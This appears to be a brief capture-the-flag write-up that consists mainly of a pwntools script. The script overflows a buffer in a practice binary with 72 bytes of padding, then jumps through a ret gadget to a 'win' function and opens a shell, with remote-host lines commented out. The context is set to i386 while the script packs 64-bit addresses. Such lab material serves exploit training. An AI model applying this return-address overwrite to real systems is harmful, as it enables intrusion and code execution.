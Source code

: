 

#### payload

```python
from pwn import *

context(arch='i386', os='linux')

# Set up the connection to the local binary
binary_path = './patched-shell'  # Replace with the actual path to your binary
io = process(binary_path)

# Set up the connection to the remote service
# host = '34.123.15.202'
# port = 5000  # Replace with the actual port of the remote service
# io = remote(host, port)

# offset
offset = 72

# winaddr
win_addr = 0x0000000000401136

# retaddr
ret_addr = 0x000000000040116b

payload = b'A' * offset
payload += p64(ret_addr)
payload += p64(win_addr)

io.sendline(payload)

io.interactive()

```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption><p>exploited</p></figcaption></figure>

{% hint style="info" %}
If met **system()** and it is a BoF, try above method
{% endhint %}

***




